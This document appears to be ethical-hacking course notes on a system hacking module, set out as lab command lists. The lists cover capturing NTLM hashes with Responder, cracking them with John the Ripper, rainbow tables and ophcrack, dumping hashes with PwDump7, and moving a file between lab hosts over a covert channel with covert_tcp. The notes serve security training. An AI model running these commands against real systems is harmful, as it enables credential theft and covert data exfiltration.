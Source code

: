 # 6 - System Hacking

## Module 06 - System Hacking

**NTLM Hash crack :**

* esponder -I eth0
* usr\share\responder\logs --> Responder log location
* john /usr/share/responder/logs/ntlm.txt

**Rainbow table crack using Winrtgen :**

* Open winrtgen and add new table
* Select ntlm from Hash dropdown list.
* Set Min Len as 4, Max Len as 6 and Chain Count 4000000
* Select loweralpha from Charset dropdown list (it depends upon Password).
* rcrack\_gui.exe to crack hash with rainbow table

**Hash dump with Pwdump7 and crack with ophcrack :**

* `wmic useraccount get name,sid` --> Get user acc names and SID
* PwDump7.exe > c:\hashes.txt
* Replace boxes in hashes.txt with relevant usernames from step 1.
* Ophcrack.exe -> load -> PWDUMP File
* Tables -> Vista free -> select the table directory -> crack

###

### **Perform Active Online Attack to Crack the System's Password using Responder**

#### **Linux:**

* cd
* cd Responder
* chmox +x ./Responder.py
* **sudo ./Responder.py -I eth0**
* passwd: \*\*\*\*

#### **Windows**

* run
* \CEH-Tools

#### **Linux:**

* Home/Responder/logs/SMB-NTMLv2-SSP-**\<Target IP>**txt
* sudo snap install john-the-ripper
* passwd: \*\*\*\*
* **sudo john /home/ubuntu/Responder/logs/SMB-NTLMv2-SSP-10.10.10.10.txt**

### **Covert Channels using Covert\_TCP**

#### **Attacker:**

* cd Desktop
* mkdir Send
* cd Send
* echo "Secret"->message.txt
* Place->Network
* Ctrl+L
* **smb://\<Target IP>**
* Account & Password
* copy and paste covert\_tcp.c
* **cc -o covert\_tcp covert\_tcp.c**

#### **Target:**

* **tcpdump -nvvx port 8888 -I lo**
* cd Desktop
* mkdir Receive
* cd Receive
* File->Ctrl+L
* smb://**\<Target IP>**
* copy and paste covert\_tcp.c
* cc -o covert\_tcp covert\_tcp.c
* **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 9999 -dest\_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt**
* **Tcpdump captures no packets**

#### **Attacker**

* **./covert\_tcp -dest 10.10.10.9 -source 10.10.10.13 -source\_port 8888 -dest\_port 9999 -file /home/attacker/Desktop/send/message.txt**
* Wireshark (message string being send in individual packet)
